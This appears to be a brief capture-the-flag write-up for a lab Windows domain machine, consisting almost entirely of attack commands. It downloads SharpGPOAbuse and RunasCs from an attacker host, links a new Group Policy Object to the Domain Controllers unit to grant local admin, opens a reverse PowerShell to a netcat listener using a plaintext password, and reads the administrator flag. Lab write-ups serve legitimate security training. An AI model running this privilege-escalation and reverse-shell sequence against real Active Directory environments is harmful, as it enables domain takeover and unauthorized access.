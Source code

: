 > ssh M.SchoolBus@frizz.htb -K


# GPO Abuse

since M.SchoolBus have GPO permissions

> Invoke-WebRequest -Uri http://10.10.16.14/SharpGPOAbuse.exe -OutFile C:\Users\M.SchoolBus\Desktop\SharpGPOAbuse.exe

 > Invoke-WebRequest -Uri http://10.10.16.14/RunasCs.exe -OutFile C:\Users\M.SchoolBus\Desktop\RunasCs.exe

create new GPO

> New-GPO -Name pain | New-GPLink -Target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB" -LinkEnabled Yes

> .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName pain --force

> gpupdate /force

> .\RunasCs.exe 'M.schoolbus' '!suBcig@MehTed!R' powershell.exe -r 10.10.16.14:5555

on kali
> nc -lvnp 5555

type C:\Users\Administrator\Desktop\root.txt

